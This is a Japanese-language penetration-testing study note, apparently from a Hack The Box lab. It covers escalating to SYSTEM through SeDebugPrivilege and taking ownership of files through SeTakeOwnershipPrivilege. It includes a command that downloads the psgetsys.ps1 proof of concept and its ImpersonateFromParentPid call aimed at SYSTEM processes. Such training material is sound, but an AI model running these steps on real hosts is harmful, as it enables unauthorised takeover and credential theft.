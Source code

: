 **SYSTEM としてのリモートコード実行**
- SeDebugPrivilege を RCE にも活用できる
	-  子プロセスを起動し、SeDebugPrivilege を介してアカウントに付与された昇格された権利を使用して、通常のシステム動作を変更し、親プロセスのトークンを継承して偽装することで、特権を SYSTEM に昇格できる
	- SYSTEM として実行されている親プロセス (ターゲットプロセスのプロセス ID (PID) を指定するか、実行中のプログラム) をターゲットにする場合、権限をすばやく昇格させることができる

まず、 PoC スクリプトをターゲットシステムに転送する
- https://github.com/decoder-it/psgetsystem
```sh
wget https://raw.githubusercontent.com/decoder-it/psgetsystem/refs/heads/master/psgetsys.ps1
```

次に、スクリプトをロードする
```
PS> . .\psgetsys.ps1 

PS> ImpersonateFromParentPid -ppid <parentpid> -command <command to execute> -cmdargs <command arguments>
```

管理者特権の PowerShell コンソールを開く
- tasklist と入力して、実行中のプロセスと付属の PID のリストを取得する
	- Windows ホストで SYSTEM として実行されていることがわかっている PID 612 で実行されている winlogon.exe をターゲットにできる
```powershell-session
PS C:\htb> tasklist 

Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0          4 K
System                           4 Services                   0        116 K
winlogon.exe                   612 Console                    1     10,408 K
```

Get-Process コマンドレットを使用して、SYSTEM として実行される既知のプロセス (LSASS など) の PID を取得し、PID をスクリプトに直接渡すこともできる

## SeTakeOwnershipPrivilege
SeTakeOwnershipPrivilege（所有権の取得）
- ユーザーに「セキュリティ保護可能なオブジェクト」の所有権を取得する権限を付与
	- 対象: Active Directory オブジェクト、NTFS ファイル/フォルダー、プリンター、レジストリキー、サービス、プロセスなど
- WRITE_OWNER 権限を通じて、オブジェクトのセキュリティ記述子の所有者を変更可能
- 標準ユーザーアカウントにこの特権が付与されていることは稀
	- 例: VSS スナップショットやバックアップ処理を担うサービスアカウントなど
- SeBackupPrivilege, SeRestorePrivilege, SeSecurityPrivilege と併用されることがあり、より細かな権限管理が可能
- 他の昇格手法がブロックされている状況下では、この特権単体でも権限昇格が可能
	- 特定のファイルやフォルダーの所有権を取得してアクセス権を変更することで活用できる
- Active Directory 環境では、この特権を悪用してファイル共有上の機密ファイルにアクセスされるリスクがある
- この特権はグループポリシーで管理される
	- パス: コンピューターの構成 → Windows の設定 → セキュリティの設定 → ローカルポリシー → ユーザー権利の割り当て
- ユーザーにこの特権が付与されている、または GPO 攻撃（例: SharpGPOAbuse）で取得した場合
	- パスワードや SSH キーなどが含まれるドキュメントや機密ファイルにアクセスできる可能性がある

**特権の活用**
現在のユーザー特権の確認
```powershell-session
PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                                              State
============================= ======================================================= ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                                Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set                          Disabled
```
